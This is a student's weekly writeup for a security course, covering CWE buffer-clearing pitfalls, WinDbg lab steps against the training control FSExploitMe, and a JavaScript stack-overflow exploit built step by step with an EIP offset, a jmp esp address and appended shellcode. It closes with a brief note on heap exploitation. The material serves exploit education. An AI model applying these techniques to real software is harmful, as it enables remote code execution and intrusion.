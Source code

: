 [Back to Index](https://jaegermeiste.github.io/DefenseAgainstTheDarkArts/)

## Week 4 Writeup

Jason George

### Software Vulnerabilities and Common Exploits Lesson 1 - Wk 4

Brad Antoniewicz ([@brad_anton](https://twitter.com/brad_anton)) is currently a Security Research Manager at OpenDNS/Cisco, but was R&D Manager at Intel Foundstone and Adjunct Professor at NYU at the time of the video.

[http://cwe.mitre.org/data/index.html](http://cwe.mitre.org/data/index.html) has various filters and views listing common software vulnerabilities for a programmer to worry about. For example, [http://cwe.mitre.org/data/definitions/14.html](http://cwe.mitre.org/data/definitions/14.html) is an interesting one - compiler optimizations removing code that clears the contents of a buffer (because the buffer is never accessed again afterwards). Thus you need a secure way to zero a buffer wihtout the compiler optimizing it away - either by manually doing something like:

``` C
memset(buffer, 0, sizeof(buffer)); 
buffer[0] = 0;    // Prevent compiler optimizing away memset by (meaninglessly) accessing it afterward
```

or in Win32, using SecureZeroMemory ([https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx)) instead of ZeroMemory.

FSExploitMe Lab 1:
1. lmf m FSExploitMe >> start = 54430000 end = 5443b000
2. !teb >> StackBase = 021f0000 StackLimit=021d7000 ?021f0000 - 021d7000 = 00019000
3. !peb >> ProcessHeap = 00320000
4. r >> eip=54431df0
5. u eip L10 >> 54431df3 sub esp, 14h (0x14 = 20 bytes)
6. t 5; du poi(esp) >> FluffyBunniesDontFlapOrQuack
7. p b 11 >> eip = 54431e27 cmp dword ptr [ebp-4],0Ah (0x0A = 10 decimal). 10 loops
8. pt >> eax = 00007a69; .formats eax >> Decimal: 31337
9. !address esi >> Usage: Stack

Most of the difficulty here is simply in learning WinDbg, but it is obviously very powerful. Now on to exploits!

FSExploitMe Lab 2:

A. Stack Behavior:
1. r >> edi = 54431e80
2. 3 arguments: 54431e89 push 1, 54331e8b push offset FSExploitMe!IID_DFSExploitMeEvents+0x6c (54434ecc), 54431e90 push 26h
3. .formats 26h >> 38 decimal, da 54434ecc >> "HeyHeyHeySon", 0x1 = 1 decimal: function call could be: func(int 38, char* "HeyHeyHeySon", bool true);

B. Crash Triage
1. r >> eip = 41414141, ebp = 41414141 
2. eax = 020f95ec, ebx = 00000008, ecx = 00000000, edx = 00000000, esi = 020f9a00, edi = 54432160, eip = 41414141, esp = 020f99f8, ebp = 41414141. Not ebx, ecx, edx, eip, or ebp. dd edi points to normal looking data. dd eax >> 414141... , dd esi >> 414141..., dd esp >> 414141... so eax, esi, and esp point to attacker controlled data.
3. 544320e0
4. 0x400 = 1024 decimal

C. Lab: Exploit!
1. ```Javascript
function L2Exercise1() {
  var s = msfPatternString;
  FSExploitMe.StackBuffer(s);
}
```
Loading byakugan and setting the pattern_offset 2000 doesn't seem to do anything at first. On the second atttempt, I loaded byakugan before triggering the exploit and the pattern_offset 200 command returned `[Byakugan] Control of eip at offset 1028.`
2. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u4242\u4242"
  FSExploitMe.StackBuffer(s);
}
```
3. lmf m FSExploitMe >> start=54430000 end=5443b000; s 54430000 5443b000 ff e4 >> 54432437
4. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u2437\u5443"  /* jmp esp address */
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```
5. 54432159 is a ret 4, popping 4 bytes from the stack.
6. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u2437\u5443"  /* jmp esp address */
  s += "\u4141\u4141"
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```

Profit!
<img src="ExploitRunCalc.PNG" alt="">

### Software Vulnerabilities and Common Exploits Lesson 2 - Wk 4

Random note: While 0x41 is ASCII A, `\u4141` used in the exploit examples is 䅁, the unified Chinese/Japanese/Korean "Ideograph to husk rice; to get the grains by oppressing the ears of the rice plant" ([https://unicode-table.com/en/4141/](https://unicode-table.com/en/4141/)). Sort of apropos.

Enabling the Low Fragmentation Heap is important in order to ensure there is contiguous memory to exploit. The heap is prdicatably organized, so you can load exploit code in high memory, replace a freed object in the LFH with a pointer to your exploit code, and then the code itself will execute the exploit naturally the next time the compromised object is called.


This week's lessons was highly informative, if a bit complex with a lot to absorb. I believe my own regular debugging skills have improved as well.
